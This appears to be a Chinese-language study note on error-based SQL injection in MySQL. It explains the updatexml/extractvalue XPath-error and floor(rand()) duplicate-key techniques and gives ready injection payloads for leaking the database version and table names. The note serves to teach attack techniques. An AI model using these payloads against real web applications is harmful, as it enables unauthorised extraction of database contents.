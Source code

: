 ## 报错注入

[知识点](https://xz.aliyun.com/t/253)

* 数据溢出

* xpath语法错误

    ```
    mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
    mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'
    payload:
    id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
    id=1 union select updatexml(1,concat(0x7e,(select @@version),0x7e),1) 
    ## 第二种有可能会 列数不匹配
    ```

* 主键重复， count(), group by 在遇到rand()产生的重复值报错
```mysql
1 Union select count(*),concat((查询语句),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
```

有时候“查询语句”可能不让用union,也只能一行一行的显示，这时候需要用到limit命令，如下：

```mysql
concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x26,floor(rand(0)*2))x
```

[limit用法](https://blog.csdn.net/sinat_36246371/article/details/54582904)

limit a,b  :  从第a个开始，显示b个（a从0开始数）

